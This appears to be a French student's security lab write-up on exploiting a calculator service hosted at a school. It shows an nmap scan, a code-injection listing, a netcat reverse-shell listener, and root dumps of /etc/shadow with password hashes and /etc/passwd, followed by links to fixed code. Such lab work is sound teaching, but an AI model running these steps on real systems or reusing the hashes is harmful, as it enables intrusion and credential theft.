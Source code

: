 # TP5 SECU : Exploit, pwn, fix

## Sommaire

- [TP5 SECU : Exploit, pwn, fix](#tp5-secu--exploit-pwn-fix)
  - [Sommaire](#sommaire)
  - [0. Setup](#0-setup)
  - [1. Reconnaissance](#1-reconnaissance)
  - [2. Exploit](#2-exploit)
  - [3. Reverse shell](#3-reverse-shell)
  - [4. Bonus : DOS](#4-bonus--dos)
  - [II. Remédiation](#ii-remédiation)

## 0. Setup

🌞 **Déterminer**

```bash
IP = 10.33.66.78
Port = 13337
```

➜ **On me dit à l'oreillette que cette app est actuellement hébergée au sein de l'école.**

🌞 **Scanner le réseau**

```bash
Nmap scan report for 10.33.66.78
Host is up (0.12s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
```

🦈 **tp5_nmap.pcapng**

🌞 **Connectez-vous au serveur**

```bash
2024-10-24 11:08:55 INFO Connexion réussie à 10.33.66.78:13337
2024-10-24 11:08:55 INFO Réponse reçue du serveur 10.33.66.78 : b'Hello'
2024-10-24 11:08:59 INFO Message envoyé au serveur 10.33.66.78 : 1 + 1
```

## 2. Exploit

🌞 **Injecter du code serveur**

```bash
stan@Stanislass-MacBook-Pro-2 tp5-secu-2024 % python3 client.py
command : ls
'afs\nbin\nboot\ndev\netc\nhome\nlib\nlib64\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n'
```

## 3. Reverse shell

🌞 **Obtenez un reverse shell sur le serveur**

```bash
stan@Stanislass-MacBook-Pro-2 ~ % nc -lv 1111
bash: cannot set terminal process group (1229): Inappropriate ioctl for device
bash: no job control in this shell
[root@localhost /]# 
```

🌞 **Pwn**

```bash
[root@localhost /]# cat /etc/shadow    
root:$6$.8fzl//9C0M819BS$Sw1mrG49Md8cyNUn0Ai0vlthhzuSZpJ/XVfersVmgXDSBrTVchneIWHYHnT3mC/NutmPS03TneWAHihO0NXrj1::0:99999:7:::
bin:*:19820:0:99999:7:::
daemon:*:19820:0:99999:7:::
adm:*:19820:0:99999:7:::
lp:*:19820:0:99999:7:::
sync:*:19820:0:99999:7:::
shutdown:*:19820:0:99999:7:::
halt:*:19820:0:99999:7:::
mail:*:19820:0:99999:7:::
operator:*:19820:0:99999:7:::
games:*:19820:0:99999:7:::
ftp:*:19820:0:99999:7:::
nobody:*:19820:0:99999:7:::
systemd-coredump:!!:20010::::::
dbus:!!:20010::::::
tss:!!:20010::::::
sssd:!!:20010::::::
sshd:!!:20010::::::
chrony:!!:20010::::::
it4:$6$HTSBHGoZflJxXu9u$i54higNbS5p2zVOLWP6P33D39SyWRrEAOjzh97xRa15KzJU3jZfBi/XIPY3FKDoYoSvo1FrirBwNcgmEVpaPK/::0:99999:7:::
tcpdump:!!:20010::::::
```

```bash
[root@localhost /]# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/:/usr/sbin/nologin
sssd:x:998:996:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/usr/sbin/nologin
chrony:x:997:995:chrony system user:/var/lib/chrony:/sbin/nologin
it4:x:1000:1000:it4:/home/it4:/bin/bash
tcpdump:x:72:72::/:/sbin/nologin
```

```bash
[root@localhost system]# sudo cat calc.service
[Unit]
Description=calc service

[Service]
Restart=always
ExecStart=/usr/bin/python3 /opt/calc/server.py

[Install]
WantedBy=multi-user.target
```

[server.py](./server.py)

```bash
[root@localhost system]# sudo cat auditd.service    
[Unit]
Description=Security Auditing Service
DefaultDependencies=no
## If auditd is sending or recieving remote logging, copy this file to
## /etc/systemd/system/auditd.service and comment out the first After and
## uncomment the second so that network-online.target is part of After.
## then comment the first Before and uncomment the second Before to remove
## sysinit.target from "Before".
After=local-fs.target systemd-tmpfiles-setup.service
##After=network-online.target local-fs.target systemd-tmpfiles-setup.service
Before=sysinit.target shutdown.target
##Before=shutdown.target
Conflicts=shutdown.target
RefuseManualStop=yes
ConditionKernelCommandLine=!audit=0
ConditionKernelCommandLine=!audit=off

Documentation=man:auditd(8) https://github.com/linux-audit/audit-documentation

[Service]
Type=forking
PIDFile=/run/auditd.pid
ExecStart=/sbin/auditd
## To not use augenrules, copy this file to /etc/systemd/system/auditd.service
## and comment/delete the next line and uncomment the auditctl line.
## NOTE: augenrules expect any rules to be added to /etc/audit/rules.d/
ExecStartPost=-/sbin/augenrules --load
#ExecStartPost=-/sbin/auditctl -R /etc/audit/audit.rules
# By default we don't clear the rules on exit. To enable this, uncomment
# the next line after copying the file to /etc/systemd/system/auditd.service
#ExecStopPost=/sbin/auditctl -R /etc/audit/audit-stop.rules
Restart=on-failure
# Do not restart for intentional exits. See EXIT CODES section in auditd(8).
RestartPreventExitStatus=2 4 6

### Security Settings ###
MemoryDenyWriteExecute=true
LockPersonality=true
# The following control prevents rules on /proc so its off by default
#ProtectControlGroups=true
ProtectKernelModules=true
RestrictRealtime=true

[Install]
WantedBy=multi-user.target
```

[auditd](./auditd)

## II. Remédiation

🌞 **Proposer une remédiation dév**

[server_fixed.py](./server_fixed.py)

[client_fixed.py](./client_fixed.py)
